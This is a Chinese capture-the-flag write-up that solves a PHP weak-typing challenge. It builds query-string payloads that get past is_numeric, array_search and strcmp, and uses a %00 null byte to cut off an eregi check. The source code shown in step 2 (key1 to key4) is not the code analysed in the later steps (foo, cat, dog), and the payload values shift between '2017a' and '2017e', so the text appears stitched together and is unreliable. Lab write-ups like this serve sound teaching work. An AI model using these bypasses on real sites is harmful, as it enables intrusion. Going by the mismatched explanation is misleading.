


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们点击`Source Code`可以直接看到php主要逻辑代码：

```php
<?php    
highlight_file(__FILE__);
    @$k1=$_GET['key1'];
    @$k2=$_GET['key2'];
    if(@file_get_contents($k1)==="Hello hacker!"){
        echo 'welcome! Hacker!<br>';
        if(md5($k2)>666666*666666)
        {
            include('flag.php');
            @$k3=$_GET['key3'];
            @$k4=$_GET['key4'];
            if(intval($k3)<666)
            {
                if($k3==666)
                {
                    echo 'Come on, flag is coming<br>';
                    if($k4>0)
                    {
                        if(intval($k3+$k4)<666)
                            echo $flag;
                    }
                }
            }else{
                exit();
            }
        }else{
            exit();
        }
    }else{
        exit();
    }
?>
```

3.**v1**

```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的`foo`，经过一次`json_decode`，然后转换成`array`。然后判断 `$a["bar1"] `是否满足 `is_numeric`，若满足则die掉。接下来又判断 `$a["bar1"] `是否大于 2016 。

利用php弱类型特性，可以设置

`$a["bar1"] = 2017a`

这样`is_numeric`时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

4.**v2**

```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```
接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个`（count($a["bar2"])!==5）`，同时要求`$a["bar2"][0]`是数组。所以我们设置:

`$a["bar2"] = [[],2,3,4,5]`

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串`“nudt”`在`$a["a2"]`中的位置。若没有找到，`array_search`返回`false`，会通过严格比较导致die掉。所以这里要设置：

`$a["a2"] = “nudt”`

注意这里因为用了`$pos===false?`的严格比较，所以0不`===false`。

之后就能设置 `v2 = 1`

结合`$a`是由`json_decode`得来，所以第一个payload为：

`foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}`

5.**v3**

```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用`strcmp`进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置`cat[1]`为一个数组。

接下来用`eregi`对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0]`.`$d`中要有字符串`“htctf2016”`。这里利用`%00`对`eregi`的截断功能，则在正则匹配`eregi`时在开头时就匹配结束掉。

`strpos(($c[0].$d), "htctf2016")`中，还要求`“htctf2016”`不能出现在开头。

```php
$d = %00 即 dog=%00

$c[0]  = "ahtctf2016"
```
所以综上所述，构造最后的payload如下：

`?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00`

6.获取flag：



